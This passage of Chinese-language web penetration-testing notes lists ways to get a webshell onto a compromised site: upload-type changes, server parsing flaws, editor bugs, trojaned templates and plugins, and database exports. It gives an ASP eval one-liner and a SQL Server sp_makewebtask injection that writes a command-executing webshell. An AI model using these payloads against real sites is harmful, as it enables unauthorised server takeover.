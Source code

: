          上传其他脚本类型拿shell
    
        

### 4、修改网站上传类型配置拿shell

有的网站在网站上传类型中限制了上传脚本类型文件，可以添加上传文件类型，如php，jsp，asp等拿shell

### 5、利用解析漏洞拿shell

         IIS 5.x/6.0解析漏洞          目录解析，分号解析，畸形文件名解析
    
         IIS 7.0/7.5，Nginx<8.03畸形文件名解析漏洞，php文件解析漏洞
    
         Nginx<8.03空字节代码执行漏洞
    
         Apache解析漏洞
    
        

### 6、利用编辑器漏洞拿shell

    常见的编辑器有fckeditor，ewebeditor，cheditor
    
        

### 7、网站配置插马拿shell

通过找到网站默认配置，将一句话插入到网站配置中，可以事先下载网站源码，查看过滤规则，防止插马失败（"%><%eval request(“abc”)%><%’）根据网站源码进行符号匹配。

### 8、通过编辑模板拿shell

         1、通过对网站的模板进行编辑，写入一句话，然后生成脚本文件拿shell
    
         2、通过将木马添加到压缩文件，把名字改为网站模板类型，上传到网站服务器，拿shell
    
        

### 9、上传插件拿shell

一些网站为了增加某些功能会在后台添加一些插件来实现，我们可以把木马添加到安装的插件中上传服务器拿shell，常见的有博客类网站dz论坛等

         示例：WordPress-V4.2.2
    
         搭建时要先创建数据库
    
         phpstudy——mysql——create database wpp;
    
         插件——已安装的插件——安装插件——下载一个正常的插件，将木马放在里面，一起上传，安装——找上传目录
    
        

### 10、数据库执行拿shell

可通过数据库执行命令导出一句话到网站根目录拿shell，access数据库导出一般需要利用解析漏洞xx.asp;.xml

sqlserve导出：

    ;exec%20sp_makewebtask%20%20%27c:\zhetpub\wwwroot\ms\x1.asp%27,%27select%27%27<%execute(request(“cmd”))%>%27%27%27
    
    